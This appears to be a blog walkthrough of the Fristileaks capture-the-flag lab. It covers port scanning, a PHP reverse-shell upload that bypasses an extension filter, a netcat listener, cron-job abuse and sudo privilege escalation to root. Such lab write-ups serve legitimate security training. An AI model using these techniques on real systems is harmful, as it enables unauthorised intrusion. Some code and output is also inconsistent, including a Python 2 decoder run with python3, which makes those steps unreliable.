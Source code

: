 ```yaml
---
title: Fristileaks Walkthrough
author: alex
date: Fri 28 Jul 19:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-fristileaks-walkthrough/
---
```


Today I'm hacking into **Fristileaks**. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests.

> SETUP
> 
> The setup is a bit tricky. I am using **VirtualBox** and in order to get an IP for the VM, I had to manually change the MAC address of the machine to 080027A5A676.
{: .prompt-tip }

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster
- Python/CyberChef

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.22.0/16   |   Screen View: Unique Hosts                                               
                                                                                                           
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                          
192.168.1.41    08:00:27:a5:a6:76      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.41
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT   STATE SERVICE VERSION

80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
```

Only **port 80** is open so let's open the browser and search the IP to see what we have.

![Fristileaks](/keep-calm.png)

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.41 -t 10`. And we can see 3 directories not listed but present in *robots.txt*: beer, cola and sis. I didn't find anything interesting here. After drinking another coffee I started trying some words and one of them threw an interesting result: /fristi/.

Here we have a login page! If we have a look to the source code of the page we can find some interesting things:

![User](/eezeepz.webp)
![Password](/base64img.webp)

I guess that **eezeepz** is a username and the second string is base64. As soon as we try to decode it with **CyberChef** we can see it's a .png image. So we need to decode it as an image. And that image has a text in it: **keKkeKKeKKeKkEkkEk**.

Cool! That looks like a password. And sure it is. We are now presented with a page to upload a file. If we try to upload a reverse shell written in PHP with .php extension it gets rejected. Let's add .png to the extension: **reverse_shell.php.png**.

## Exploitation

Before we visit the url of our reverse shell, we must start a **Netcat** listener:

```bash
sudo nc -nlvp 1234
```

Now we can visit the url (IP + /uploads/reverse_shell.php.png) to start the shell and get inside **fristi**.

First, let's spawn an interactive shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Good, let's start sniffing around the folders.

There's an interesting file: **/home/eezpeez/notes.txt**. If we `cat` it, we can see some instructions to run some commands as admins so we can change permissions for the *admin* directory:

```bash
echo '/home/admin/chmod -R 777 /home/admin' > /tmp/runthis
```

Now, after a minute, once the cronjob is executed we can `cd` into the *admin* directory. And here we can find some interesting files: 

- cryptpass.py
- whoisyourgodnow.txt
- cryptedpass.txt

We can see two passwords encrypted in the files **whoisyourgodnow.txt** and **cryptedpass.txt**. They have been encrypted with the file **cryptpass.py** so we have to reverse the encryption algorithm in order to revert it and reveal the password.

### Way #1 - CyberChef

If you are not good at Python or don't know how to write programs with it, you can use CyberChef for this task but you'll still need to understand some Python to know how the password is encrypted.

```python
     def encodeString(str):
1 >    base64string= base64.b64encode(str)
2 >    return codecs.encode(base64string[::1], 'rot13')
```

1. This line encodes the string in base64 as a first step so it will be our last step
2. This line rotates the characters 13 positions and reverse the string

So, inside CyberChef we need to load **Reverse**, **ROT13** and **From Base64**, paste the string and voilà! we have the password.

![CyberChef](/cyberchef.png)

### Way #2 - Python

If you are good with Python, you can code the reverse algorithm. Here's the program and how to use it:

```python
import base64,codecs,sys

string = "=RFn0AKnlMHMPIzpyuTI0ITG"

string1 = string[::-1]
string2 = string1.encode("rot13")
string3 = base64.b64decode(string2)

print string3
```

To use it: 

```bash
sudo python3 decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
```

Now we can change user:

```bash
su fristigod
Password: LetThereBeFristi!
```

Let's see what powers do we have: `sudo -l`

```
User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Cool! We can execute the doCom SUID with sudo privileges:

```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```

Now we can check we are root:

```
$ whoami
root
$ cd root
$ cat fristileaks_secrets.txt
```

And we get the flag as proof of our victory:

```
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```


